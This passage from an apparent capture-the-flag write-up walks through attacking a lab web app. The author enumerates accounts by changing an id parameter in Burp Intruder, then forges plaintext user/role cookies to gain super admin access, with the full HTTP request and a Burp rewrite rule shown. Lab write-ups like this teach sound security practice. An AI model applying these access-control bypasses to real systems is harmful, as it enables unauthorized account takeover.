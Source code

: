 This gave me a user session and access to an admin area - `cdn-cgi/login/admin.php`

## Gaining Super Admin Access

There were a couple of interesting sections in the admin sections:

### 1. The Account Tab
Clicking on `Account` bought me to a basic account info page with the following table:

```
Access ID  |  Name   |       Email
------------------------------------------
   34322   |  admin  |  admin@megacorp.com
```

The URL showed this `/cdn-cgi/login/admin.php?content=accounts&id=1`, so I ran burp intruder, replacing the id parameter from a simple number list, to see which other users existed on the system:

```
34322	admin		admin@megacorp.com
8832	john		john@tafcz.co.uk
57633	Peter		peter@qpic.co.uk
28832	Rafol		tom@rafol.co.uk
86575	super admin	superadmin@megacorp.com
```

### 2. The Uploads Tab

Visiting the uploads tab initially displays a message `This action requires super admin rights`.

On the previous page I'd found the ID, username and email address for the super admin, now I just need to see if I could fake my credentials to pose as him.
I turned on burp and reloaded the page to have a look at the headers for the page:

```
GET /cdn-cgi/login/admin.php?content=uploads HTTP/1.1
Host: 10.10.10.28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```

As you can see the cookie is 2 plain text key/value pairs - user and role. I changed it to the credentials for the super admin `user=86575; role=super admin` and forwarded the request. This rendered a form for uploading an image.

I added a new Regex Match and Replace rule to burp so that I would be able to browse as super admin from now on:
- Match - `^Cookie: .*$`
- Replace - `Cookie: user=86575; role=super admin`
